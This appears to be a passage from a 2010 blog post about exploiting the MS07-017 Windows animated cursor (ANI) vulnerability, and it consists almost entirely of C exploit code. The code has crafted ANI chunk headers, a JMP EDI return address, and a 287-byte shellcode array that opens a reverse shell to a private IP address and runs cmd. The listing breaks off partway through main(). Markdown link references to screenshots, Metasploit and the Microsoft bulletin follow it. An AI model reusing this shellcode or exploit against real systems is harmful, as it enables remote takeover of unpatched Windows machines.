     unsigned char FirstChunk[] = // First Chunk 44Byte //
        "\x61\x6e\x69\x68\x24\x00\x00\x00"
        "\x24\x00\x00\x00"
        "\x02\x00\x00\x00"
        "\x00\x00\x00\x00"
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
        "\x00\x00\x00\x00\x04\x00\x00\x00"
        "\x01\x00\x00\x00";
    
    unsigned char SecondChunkHeader[] = //Second Chunk Header 8Byte //
        "\x61\x6e\x69\x68\x87\x01\x00\x00";

    unsigned char Shell[] = // shell size = 287Byte //
        "\xfc\x6a\xeb\x4d\xe8\xf9\xff\xff\xff\x60\x8b\x6c\x24\x24\x8b\x45" //1
        "\x3c\x8b\x7c\x05\x78\x01\xef\x8b\x4f\x18\x8b\x5f\x20\x01\xeb\x49" //2
        "\x8b\x34\x8b\x01\xee\x31\xc0\x99\xac\x84\xc0\x74\x07\xc1\xca\x0d" //3
        "\x01\xc2\xeb\xf4\x3b\x54\x24\x28\x75\xe5\x8b\x5f\x24\x01\xeb\x66" //4
        "\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb\x03\x2c\x8b\x89\x6c\x24\x1c\x61" //5
        "\xc3\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x40" //6
        "\x08\x5e\x68\x8e\x4e\x0e\xec\x50\xff\xd6\x66\x53\x66\x68\x33\x32" //7
        "\x68\x77\x73\x32\x5f\x54\xff\xd0\x68\xcb\xed\xfc\x3b\x50\xff\xd6" //8
        "\x5f\x89\xe5\x66\x81\xed\x08\x02\x55\x6a\x02\xff\xd0\x68\xd9\x09" //9
        "\xf5\xad\x57\xff\xd6\x53\x53\x53\x53\x43\x53\x43\x53\xff\xd0\x68" //10
        "\xc0\xa8\x42\xe4\x66\x68\x10\xe1\x66\x53\x89\xe1\x95\x68\xec\xf9" //11
        "\xaa\x60\x57\xff\xd6\x6a\x10\x51"
        "\xcd\xfd" // Original = \x55\xff // Modified = \xcd\xfd //
        "\xd0\x66\x6a\x64\x66\x68"
        "\x63\x6d\x6a\x50\x59\x29\xcc\x89\xe7\x6a\x44\x89\xe2\x31\xc0\xf3"
        "\xaa\x95\x89\xfd\xfe\x42\x2d\xfe\x42\x2c\x8d\x7a\x38\xab\xab\xab"
        "\x68\x72\xfe\xb3\x16\xff\x75\x28\xff\xd6\x5b\x57\x52\x51\x51\x51"
        "\x6a\x01\x51\x51\x55\x51\xff\xd0\x68\xad\xd9\x05\xce\x53\xff\xd6"
        "\x6a\xff\xff\x37\xff\xd0\x68\xe7\x79\xc6\x79\xff\x75\x04\xff\xd6"
        "\xff\x77\xfc\xff\xd0\x68\xf0\x8a\x04\x5f\x53\xff\xd6\xff\xd0";

    int
    main (int    argc,
          char **argv)
    {
      char           payload[455];
      char           padding[80];
      int            pointer = 0;                // payload
      unsigned char  RET[] = "\xed\x1e\x97\x7c"; // JMP EDI
      FILE          *f;

      memset (payload, 0x41, 455);
      memset (padding, 0x41, 80);
      memcpy (payload, Header, sizeof(Header) - 1);

      pointer = sizeof (Header) - 1;
      memcpy (payload + pointer, FirstChunk, sizeof (FirstChunk) - 1);

      pointer += sizeof (FirstChunk) - 1;
      memcpy (payload + pointer, SecondChunkHeader, sizeof (SecondChunkHeader) - 1);


[prepare-before-after]: 2010-12-19-01.jpg
[binary-diff]:          2010-12-19-02.jpg
[binary-diff-zoom]:     2010-12-19-03.jpg
[target-file]:          2010-12-19-05-01.jpg width=700px
[target-file-analysis]: 2010-12-19-05-02.jpg
[metasploit-anihchunk]: 2010-12-19-06.jpg
[trap-card]:            2010-12-19-07.jpg
[youve-trapped]:        2010-12-19-08.jpg width=700px
[reverse-shell]:        2010-12-19-09.jpg
[backtrack-home]:       http://www.backtrack-linux.org/
[metasploit-home]:      http://www.metasploit.com/
[ms07-017-patch]:       http://www.microsoft.com/korea/technet/security/bulletin/ms07-017.mspx
[riff-file-format]:     http://mips.changwon.ac.kr/cyber/multi_theory/multimedia/mmd3-1.html
[twitter-vohrmana]:     http://twitter.com/#!/vohrmana
[wikipedia-exploit]:    http://en.wikipedia.org/wiki/Exploit_%28computer_security%29